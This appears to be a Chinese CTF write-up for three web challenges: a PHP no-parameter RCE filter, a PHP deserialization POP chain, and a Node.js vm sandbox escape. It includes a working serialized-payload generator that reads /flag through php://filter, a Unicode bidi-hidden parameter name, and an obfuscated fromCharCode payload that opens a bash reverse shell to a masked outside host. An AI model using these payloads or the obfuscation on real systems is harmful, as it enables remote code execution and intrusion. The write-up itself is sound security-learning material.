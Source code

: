 
### ezrce
#无参rce 
```php
<?php  
function waf($poc)  
{  
    if(preg_match("/[0-9]|get_defined_vars|getallheaders|next|prev|end|array_reverse|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $poc)){  
        echo "hacker! you die!<br/>";  
        return "666";  
    }  
    return $poc;  
}
```

使用session_start绕过waf限制

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603120816.png)

### ezpop

```php
<?php  
highlight_file(__FILE__);  
  
class night  
{  
    public $night;  
  
    public function __destruct(){  
        echo $this->night . '哒咩哟';  
    }  
}  
  
class day  
{  
    public $day;  
  
    public function __toString(){  
        echo $this->day->go();  
    }  
  
    public function __call($a, $b){  
        echo $this->day->getFlag();  
    }  
}  
  
  
class light  
{  
    public $light;  
  
    public function __invoke(){  
        echo $this->light->d();  
    }  
}  
  
class dark  
{  
    public $dark;  
  
    public function go(){  
        ($this->dark)();  
    }  
  
    public function getFlag(){  
        include(hacked($this->dark));  
    }  
}  
  
function hacked($s) {  
    if(substr($s, 0,1) == '/'){  
        die('呆jio步');  
    }    $s = preg_replace('/\.\.*/', '.', $s);    $s = urldecode($s);    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');  
    return strip_tags($s);  
}  
  
$un = unserialize($_POST['‮⁦快给我传参⁩⁦pop']); // throw new Exception('seino');


```

复制代码到本地编辑器发现参数里存在unicode反转字符
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603131102.png)


```php
<?php
class night{
    public $night;
}
class day{
    public $day;

}
class dark{
    public $dark;
}
class light{
    public $light;
}
$a=new night();
$b=new day();
$c=new dark();
$d=new light();
$e=new day();
$f=new dark();
$a->night=$b;
$b->day=$c;
$c->dark=$d;
$d->light=$e;
$e->day=$f;
$f->dark="php://filter/read=convert.base64-encode/resource=/flag";
echo(serialize($a));
```

传参
`%E2%80%AE%E2%81%A6%E5%BF%AB%E7%BB%99%E6%88%91%E4%BC%A0%E5%8F%82%E2%81%A9%E2%81%A6=<序列化后的数据>`



### Esc4pe_T0_Mong0
#js_escape

*source*
```js
//const { MongoClient } = require("mongodb");
//const client = new MongoClient("mongodb://localhost:27017/");

const vm = require('vm');

const express = require("express");
const bodyParser = require('body-parser');
const app = express();

const isValidCode = (code) => {
    const isLengthValid = code.length < 365;
    const isASCII = /^[\x20-\x7e]+$/.test(code);
    const containsInvalidChars = /[.\[\]{}\s;`'"/\\_<>?:]/.test(code);
    const doesNotContainImport = !code.toLowerCase().includes("import");
    const doesNotContainUnescape = !/%(?:d0|d1|%[89abAB][0-9a-fA-F])/.test(code);

    return (
      isLengthValid &&
      isASCII &&
      !containsInvalidChars &&
      doesNotContainImport &&
      doesNotContainUnescape
    );
};

app.use(bodyParser.json());

app.get('/', function (req, res) {
    res.sendFile( __dirname + "/static/index.html" );
});

app.get('/readfile', function (req, res) {
    res.sendFile( __dirname + "/app.js" );
});

app.get('/exec', (req, res) => {
    const code = req.query.code;
    if (!code) {
        res.status(400).json({ error: 'Code is required.' });
        return;
    }

    if (isValidCode(code)) {
        try {
            const sandbox = {};
            const script = new vm.Script(code);
            const result = script.runInNewContext(sandbox);
            res.json({ result });
        } catch (err) {
            res.status(400).json({ error: err.message });
        }
    } else {
        res.status(400).json({ error: 'you cant bypass my vm best waf!' });
        return;
    }
});

//app.get('/getflag', function (req, res) {
//    todo...
//});

app.listen(3000, () => console.log(`nodeapp listening on http://localhost:3000`));
```

可以看到在沙箱里执行了命令,需要逃逸

---



```js
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,X,X,46,X,X,X,46,X,X,46,X,X,X,47,X,X,X,X,32,48,62,38,b,34))
```

感觉我的vps长度不够啊,12位ip地址+5位端口

> • with() - 它用于环境对象。它接受一个对象作为参数,并将该对象的属性添加到当前作用域。这就允许代码访问with()语句中的对象的属性,而不使用对象名称。在这个例子中,它用来访问构造函数。
> 
> • fromCharCode() - 它用来从ASCII码生成字符串。在这个例子中,它生成了恶意命令的字符。
> 
> • mainModule 和 require() - 它们用于访问Node.js模块。require()用于加载模块,mainModule指向主模块。
> 
> • constructor - 构造函数,它用来创建新对象。在这个例子中,它用于创建一个新对象,以便使用with()语句。
> 
> • exec() - 它用于执行 shell命令。在这个例子中,它执行了反向Shell命令。
> 
> 总的来说,这段代码主要是利用了JavaScript的 with()语句、fromCharCode()函数来生成命令字符串,然后使用require()和exec()这些Node.js API来执行该命令。通过这样的手法,它试图规避检测和隐藏其真实目的。

后面就靠wp脑补了

```shell
#打开mongodb服务
service mongodb start
#启动!
mongo
#查看数据库
show databases
#可以看到secret库,拿下!
```

